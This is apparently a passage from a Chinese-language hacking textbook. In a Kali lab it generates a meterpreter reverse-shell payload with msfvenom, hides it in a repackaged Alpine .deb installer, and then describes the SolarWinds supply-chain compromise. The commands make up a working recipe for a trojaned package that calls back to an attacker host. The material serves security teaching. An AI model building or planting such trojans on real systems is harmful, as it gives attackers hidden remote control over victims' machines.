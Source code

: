 ##### **添加植入程序**

现在我们将创建植入程序，并将其添加到*/usr/bin*文件夹中，以确保安装程序在安装过程中将其复制到受害者机器上的*/home/usr/bin*文件夹。首先，导航到*mailTrojan*文件夹中的*usr/bin*文件夹：

```
kali@kali:~/Desktop/Malware/trojans/mailTrojan$ cd usr/bin
```

接下来，使用`msfvenom`命令创建恶意文件，如下所示：

```
kali@kali:~/Desktop/Malware/trojans/mailTrojan/usr/bin$ msfvenom -a x86 --

			 platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<Kali IP

			 address> LPORT=8443 -b "\x00" -f elf -o malicious
```

我们将使用`msfvenom`，并使用与之前相同的选项生成恶意植入程序。不过，除了直接将植入程序复制到受害者的机器上，我们还将它隐藏在 Alpine 的安装文件夹中。将生成的*malicous*二进制文件复制到*usr*文件夹中。现在，你的*usr/bin/*文件夹内容应该类似于图 10-4。

![image](img/ch10fig04.jpg)

*图 10-4：* usr/bin/*文件夹的内容*

现在你可以准备将文件重新打包成最终的*.deb*安装文件。运行以下命令开始重新打包过程：

```
kali@kali:~/Desktop/Malware/trojans/mailTrojan$ dpkg-deb --build ~/Desktop/

			 Malware/trojans/mailTrojan
```

完成了！你已经创建了第一个特洛伊木马。你可以通过导航到*/Desktop/Malware/trojans*文件夹并运行`**ls**`命令查看它：

```
kali@kali:~/Desktop/Malware/trojans$ ls
alpine_2.24+dfsg1-1_amd64.deb mailTrojan mailTrojan.deb
```

以*alpine*开头的文件是未修改的 Alpine 安装程序。*mailTrojan*文件夹是我们刚刚添加恶意文件的文件夹，*mailTrojan.deb*是我们重新包装的包含植入物的木马。一个建议的改进是：攻击者可能会选择一个更隐蔽的名字。

像这样的攻击确实有效，而且通常规模很大。以 Solarwinds 为例，Solarwinds 生产的软件是政府和大型企业用来管理和保护其网络的。2020 年，黑客成功入侵 Solarwinds 的计算机，并修改了其中一个软件库，加入了恶意植入物。当 Solarwinds 安装其软件更新时，恶意植入库也被一同安装。此次攻击影响了多个使用 Solarwinds 软件的公司和政府机构。这个植入物经过精心设计，甚至包含了一种避免被发现的策略。例如，它在激活之前等待了两周，并且如果检测到如 Wireshark 等安全相关软件，它就不会启动。
